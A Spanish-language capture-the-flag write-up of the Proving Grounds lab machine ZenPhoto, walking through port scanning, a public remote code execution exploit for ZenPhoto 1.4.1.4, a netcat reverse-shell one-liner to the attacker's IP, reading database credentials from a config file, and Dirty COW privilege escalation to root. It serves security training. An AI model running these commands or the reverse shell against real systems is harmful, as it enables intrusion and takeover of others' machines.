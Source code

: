 ```yaml
---
layout: post
title: ZenPhoto (Linux - Intermediate) - Proving Grounds Practice
date: 13.06.2025
categories: [Linux, Proving Grounds, Proving Grounds Practice, Walkthrough, OSCP, Tutorial]
tag: [Proving Grounds Practice, Proving Grounds, Linux, HTTP, DirSearch, Fuzzing, ZenPhoto, ZenPhoto 1.4.1.4 - 'ajax_create_folder.php' Remote Code Execution, PHP, mysql, MYSQL, DataBase, Kernel Exploit, Linux Version, GCC, Dirty, Dirty COW' 'PTRACE_POKEDATA' Race Condition Privilege Escalation (/etc/passwd Method), Linux Kernel 2.6.22, Dirty Cow, PERL, black-hole.pl, Intermediate]
image:
  path: assets/img/post-img/PGimage-Title/PG-Title.svg
  alt: 
---
```


# Resolución paso a paso de la máquina ZenPhoto:

## ENUMERACIÓN

### NMAP

- Realizamos el primer escaneo para ver que puertos están abiertos:

```bash
nmap -p- --open -v -n 192.168.162.41 -oG allPorts
```

![image.png](assets/img/post-img/ZenPhoto/image.png)

- Enumeramos los **SERVICIOS ACTIVOS** en los **PUERTOS** que hemos descubierto:

```bash
nmap -sCV -p22,23,80,3306 --min-rate 5000 192.168.162.41 -oN targeted
```

![image.png](assets/img/post-img/ZenPhoto/image%201.png)

- Vemos que tenemos **4** puertos abiertos, entre ellos **MYSQL** que no nos permite interactuar desde nuestra máquina, Telnet más de lo mismo y para **SSH** no tenemos credenciales. Solo nos queda el puerto **80**, por lo que vamos a realizar un poco de enumeración web, empezando por **FUZZING DE DIRECTORIOS**:

### DIRSEARCH

```powershell
dirsearch  -u http://192.168.162.41/test -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x 403,400,404
```

![image.png](assets/img/post-img/ZenPhoto/image%202.png)

- Con **DIRSEARCH** conseguimos sacar algo de información y, entre los directorios hay un **ROBOTS.TXT** donde encontramos algunas rutas interesantes, entre ellas una ruta UPLOADED, que en el caso de poder subir alguna **WEBSHELL** o algun archivo malicioso no puede ser útil para poder ejecutarlos.

![image.png](assets/img/post-img/ZenPhoto/image%203.png)

- En el **ROBOTS** también encontramos un directorio **ZP-CORE** que nos redirige a un **ADMIN.PHP** con un **PANEL DE LOGIN** de un gestor de contenido de fotografía e imagenes (**ZenPhoto**). Probamos credenciales por defecto, alguna inyección **SQL** y parece que no conseguimos nada. Lanzamos también **HYDRA** para ir realizando F**UERZA BRUTA** pero tampoco obtenemos resultados.
- En el directorio **TEST** del servidor web, que parece ser el directorio raíz podemos identificar la versión de **ZenPhoto** que se está ejecutando, la **1.4.1.4**:

![image.png](assets/img/post-img/ZenPhoto/image%204.png)

- Investigamos un poco y encontramos un **EXPLOIT** para esa versión en **EXPLOIT-DB**:

[ZenPhoto 1.4.1.4 - 'ajax_create_folder.php' Remote Code Execution](https://www.exploit-db.com/exploits/18083)

## EXPLOTACIÓN

- Nos descargamos el **EXPLOIT** y lo lanzamos pasándole el **TARGET** y el **DIRECTORIO** y ganamos una **SHELL** bajo el usuario **WWW-DATA**:

```powershell
php 18083.php 192.168.162.41 /test/
```

![image.png](assets/img/post-img/ZenPhoto/image%205.png)

- Para poder operar más comodamente vamos a lanzarnos una **REVERSE SHELL** hacia nuestra máquina atacante y a realizar el tratamiento de la tty:

```powershell
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 192.168.45.223 4444 >/tmp/f
```

- Recibimos la conexión:

![image.png](assets/img/post-img/ZenPhoto/image%206.png)

## TRATAMIENTO DE LA TTY

- Realizamos el tratamiento de la **TTY** para poder trabajar más cómodos desde una **SHELL INTERACTIVA**:

```bash
script /dev/null -c bash

control+z

stty raw -echo; fg

reset xterm

export TERM=xterm-256color

export SHELL=bash

stty rows 52 columns 214 
```

- Ahora que ya hemos ganado acceso a la máquina y podemos operar con comodidad podemos leer la primera **FLAG**:

![image.png](assets/img/post-img/ZenPhoto/image%207.png)

### RECONOCIMIENTO

- Empezamos realizando un poco de reconocimiento interno y lanzamos [**LINPEASS.SH](http://LINPEASS.SH).** En el **OUTPUT** encontramos que tenemos levantado el **SERVIDOR MYSQL** desde el que no podiamos acceder desde fuera de la máquina. Intentamos acceder con credenciales por defecto pero no nos deja:

![image.png](assets/img/post-img/ZenPhoto/image%208.png)

![image.png](assets/img/post-img/ZenPhoto/image%209.png)

- Sabemos que tenemos acceso a una **BBDD** por lo que intentamos encontrar credenciales de acceso. Para ello intentamos buscar por el sistema algún archivo ***CONFIG***, en este caso lo buscamos con **LOCATE** y encontramos un archivo **ZP-CONFIG.PHP** donde encontramos las credenciales de acceso a la **BASE DE DATOS**:

```powershell
locate config
```

![image.png](assets/img/post-img/ZenPhoto/image%2010.png)

![image.png](assets/img/post-img/ZenPhoto/image%2011.png)

> 
**User: root**  
**Password: hola**  
**Database: zenphoto**
> 

- Intentamos acceder y vemos que nos obliga a pasarle directamente el nombre de la **BASE DE DATOS** a la que queremos acceder y lo logramos:

```powershell
mysql -u root -p zenphoto -h 127.0.0.1 -P 3306
```

![image.png](assets/img/post-img/ZenPhoto/image%2012.png)

- Una vez dentro de la **BBDD** logramos encontrar credenciales hasheadas del usuario **ADMIN**:

![image.png](assets/img/post-img/ZenPhoto/image%2013.png)

> 
**User: admin**  
**Hash: 63e5c2e178e611b692b526f8b6332317f2ff5513**
> 

- Después de intentar crackear el **HASH** durante un rato no lo logramos e intentamos buscar otra opción para poder escalar nuestros privilegios:

## ESCALADA DE PRIVILEGIOS

- Enumerando el sistemna vemos que tenemos una versión de **LINUX** muy antigua. Buscamos un poquito en **EXPLOIT-DB** y encontramos varios **EXPLOITS**, probamos alguno y no nos funciona pero al final probamos el **DIRTY COW** y no permite elevar privilegios:

[Linux Kernel 2.6.22 < 3.9 - 'Dirty COW' 'PTRACE_POKEDATA' Race Condition Privilege Escalation (/etc/passwd Method)](https://www.exploit-db.com/exploits/40839)

- Descargamos el **EXPLOIT** y lo transferimos a la máquina víctima para compilarlo desde ahí con **GCC**:

![image.png](assets/img/post-img/ZenPhoto/image%2014.png)

- Una vez compilado lo ejecutamos y nos creará un nuevo usuario “**FIREFART**” con privilegios de **ROOT**, para ello nos pedirá que introduzamos la contraseña que queramos y despues saldremos. Ahora nos logueamos como el nuevo usuario **FIREFART** y le pasamos la contraseña que hemos puesto. Y ya estaremos corriendo con permisos de **ROOT**:

![image.png](assets/img/post-img/ZenPhoto/image%2015.png)

- Ahora ya podemos ir al directorio **ROOT** y leer la **FLAG**:

![image.png](assets/img/post-img/ZenPhoto/image%2016.png)